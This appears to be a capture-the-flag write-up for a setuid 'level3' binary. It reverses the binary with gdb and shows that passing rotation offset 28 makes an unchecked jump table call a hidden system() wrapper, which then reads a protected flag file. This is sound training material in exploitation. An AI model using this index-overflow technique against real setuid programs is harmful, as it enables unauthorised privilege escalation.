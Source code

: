 # Level 3

`level3` is also a `setuid` binary.

```shell
> ls -l $(which level3) && file $(which level3)
```

```
-rwsr-sr-x 1 level3 users 7117 Oct 6 17:58 level3
level3: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.32,
 BuildID[sha1]=811f740b57c63b18158fe05bc5913de0bd03eec6, not stripped
```

---

Running it displays some usage information, with the binary claiming to run Caesar's cipher,
with variable shift parameters.

```shell
> level3
```

```
Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
Usage: level3 <rot_offset> <string>
Example:
 $ level3 13 foo
sbb
```

---

While the binary does run `uname`, it now contains the full path to the executable, circumventing
the issue with `level2`.

```shell
> strings $(which level3) | grep uname
```

```
/usr/bin/uname -a
```

---

Listing the functions reveals one function per shift parameter, which
is rather nonsensical. There is also a suspicious `run` function.

```shell
> gdb level3
(gdb) info functions
```

```
Non-debugging symbols:
[snipped]
0x0000000000400696  rotn
0x0000000000400735  rotm1
0x00000000004007a0  rot0
0x000000000040080b  rot1
0x0000000000400876  rot2
.
.
.
0x0000000000401213  rot25
0x000000000040127e  rot26
0x00000000004012e9  rot27
0x0000000000401354  run
0x000000000040136e  main
[snipped]
```

---

The disassembly of `run` gives us what seems to be a trivial wrapper around `system()`

```
   0x0000000000401354 <+0>:	push   %rbp
   0x0000000000401355 <+1>:	mov    %rsp,%rbp
   0x0000000000401358 <+4>:	sub    $0x10,%rsp
   0x000000000040135c <+8>:	mov    %rdi,-0x8(%rbp)
   0x0000000000401360 <+12>:	mov    -0x8(%rbp),%rax
   0x0000000000401364 <+16>:	mov    %rax,%rdi
   0x0000000000401367 <+19>:	callq  0x400550 <system@plt>
   0x000000000040136c <+24>:	leaveq 
   0x000000000040136d <+25>:	retq  
```

---

Disassembling `main` reveals that the `rot` functions are called using a jump table.

```asm
   0x000000000040136e <+0>:	push   %rbp
   0x000000000040136f <+1>:	mov    %rsp,%rbp
   0x0000000000401372 <+4>:	sub    $0x20,%rsp
   0x0000000000401376 <+8>:	mov    %edi,-0x14(%rbp)
   0x0000000000401379 <+11>:	mov    %rsi,-0x20(%rbp)
   0x000000000040137d <+15>:	mov    $0x401488,%edi
   0x0000000000401382 <+20>:	callq  0x401354 <run>
   0x0000000000401387 <+25>:	cmpl   $0x3,-0x14(%rbp)
   0x000000000040138b <+29>:	je     0x4013a8 <main+58>
   0x000000000040138d <+31>:	mov    $0x4014a0,%edi
   0x0000000000401392 <+36>:	callq  0x400530 <puts@plt>
   0x0000000000401397 <+41>:	mov    $0x4014c4,%edi
   0x000000000040139c <+46>:	callq  0x400530 <puts@plt>
   0x00000000004013a1 <+51>:	mov    $0x1,%eax
   0x00000000004013a6 <+56>:	jmp    0x4013f4 <main+134>
   0x00000000004013a8 <+58>:	mov    -0x20(%rbp),%rax
   0x00000000004013ac <+62>:	add    $0x8,%rax
   0x00000000004013b0 <+66>:	mov    (%rax),%rax
   0x00000000004013b3 <+69>:	mov    %rax,%rdi

; at this point, we presumably have an atoi()-ed version of the string
   0x00000000004013b6 <+72>:	callq  0x400580 <atoi@plt>
   0x00000000004013bb <+77>:	cltq   

; the following two addresses look suspiciously like the addresses of
; rot0 and rot1 above.
   0x00000000004013bd <+79>:	mov    $0x40080b,%ecx
   0x00000000004013c2 <+84>:	mov    $0x4007a0,%edx
   0x00000000004013c7 <+89>:	sub    %rdx,%rcx        ; rot1 - rot0 ?
   0x00000000004013ca <+92>:	mov    %rcx,%rdx
   0x00000000004013cd <+95>:	imul   %rdx,%rax        ; (rot1 - rot0) * something?

; again, we see what looks like the address of rot0
   0x00000000004013d1 <+99>:	add    $0x4007a0,%rax
   0x00000000004013d7 <+105>:	mov    %rax,-0x8(%rbp)
   0x00000000004013db <+109>:	mov    -0x20(%rbp),%rax
   0x00000000004013df <+113>:	add    $0x10,%rax
   0x00000000004013e3 <+117>:	mov    (%rax),%rdx
   0x00000000004013e6 <+120>:	mov    -0x8(%rbp),%rax
   0x00000000004013ea <+124>:	mov    %rdx,%rdi

; it seems we have a jump-table on our hands
   0x00000000004013ed <+127>:	callq  *%rax
   0x00000000004013ef <+129>:	mov    $0x0,%eax
   0x00000000004013f4 <+134>:	leaveq 
   0x00000000004013f5 <+135>:	retq  
```

---

All that needs to be done is to find the input that will cause the jump-table
code to execute `run` instead of one of the `rot`s.

With `rot0` @ `4007a0` and `rot1` @ `40080b`, the "distance" between functions is `6b`, or `107`.
The address of `run` is `401354`, which just happens to be `6b` higher than `rot27` @  `4012e9`.
`28` will, thus, execute `run`.

```shell
> level3 28 "cat /home/level3/flag
```

```
Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
quaawiechohfoosheewaichigaxaibieshoonael
```

\#win
